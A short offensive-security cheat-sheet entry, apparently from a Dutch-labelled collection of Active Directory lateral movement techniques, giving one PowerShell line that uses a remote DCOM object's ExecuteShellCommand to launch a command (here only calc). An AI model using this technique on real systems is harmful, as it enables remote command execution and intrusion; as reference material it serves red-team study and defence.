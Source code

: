 # 24. AD Lateral Movement — Entry 39

## Categorie

DCOM

## Commando

```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```

## Omschrijving

```
Executing a command on the remote DCOM object
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

